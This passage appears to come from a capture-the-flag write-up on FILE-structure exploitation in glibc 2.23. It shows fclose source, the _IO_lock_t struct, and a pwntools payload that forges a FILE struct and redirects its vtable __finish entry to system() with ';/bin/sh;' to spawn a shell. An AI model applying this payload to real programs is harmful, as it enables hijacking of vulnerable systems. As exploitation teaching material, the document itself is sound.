 ```c
  _IO_FINISH (fp);
  if (_IO_have_backup (fp))
    _IO_free_backup_area (fp);
  if (fp != _IO_stdin && fp != _IO_stdout && fp != _IO_stderr)
    {
      fp->_IO_file_flags = 0;
      free(fp);
    }

  return status;
}
```


We can skip large chunks of this function if `_IO_IS_FILEBUF` is not set. Looking at the source code of libc, I found 
that the bit mask for _IO_IS_FILEBUF is `0x2000`. The bitwise NOT is `0xFFFFDFFF`, so we can set the flags of our fake 
FILE struct to that.


### Bypassing the lock

Another interesting macro `_IO_aquire_lock(fp)` is used. The 
[struct `_IO_lock_t`](https://elixir.bootlin.com/glibc/glibc-2.23/source/sysdeps/nptl/stdio-lock.h#L29) isn't too complicated:
```c
typedef struct { 
     int lock; 
     int cnt; 
     void *owner;
} _IO_lock_t;
```

`_lock` is locked if `_lock->cnt != 0`. Thus, if we set `_lock` to a buffer of zeroes, libc will be able to aquire the 
lock by incrementing `cnt`. Similarly, its counterpart, `_IO_release_lock` decrements `cnt`. A good target buffer is the 
end of the `filename` buffer.

We can add the following onto our exploit script:

```python
file = ""                                       # file
file += p32(0xFFFFDFFF)                         # file->_flags  set _IO_IS_FILEBUF bit to false
file += ";/bin/sh;"                             # file->???     to be interpreted as a string

payload = file.ljust(32, 'A')                   # padding to reach *fp
payload += p32(elf.symbols['name'])             # *fp           overwrite *fp to point to the start of the name buffer
payload += '`'                                  # padding
payload += 'A' * (72-37)                        # padding
payload += p32(elf.symbols['filename'] + 32)    # file->_lock   vtable->__dummy
payload += p32(elf.symbols['name'] + 72)        # file->vtable  vtable->__dummy2
payload += p32(libc.symbols['system'])          #               vtable->__finish

exit(payload)
```
